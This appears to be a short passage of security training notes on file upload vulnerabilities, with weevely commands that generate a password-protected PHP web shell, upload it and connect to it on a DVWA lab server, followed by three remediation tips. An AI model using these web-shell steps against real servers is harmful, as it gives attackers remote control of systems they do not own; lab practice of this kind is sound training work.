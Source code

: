 -  List item weevely
	```
	weevely generate passs_for_file file_save_location/shell.php
	# upload shell.php
	weevely uploaded_file_path password_of_shell.php
	# example 
	weevely http://192.168.30.233/dvwa/hackable/uploads/shell.php 12345
	```

**remediation of file upload vulnerabilites**
1. Never allow users to upload executables (php, exe ..etc)
2. Check the file AND the file extension.
3. Analyse the uploaded file, recreate it and rename it.
	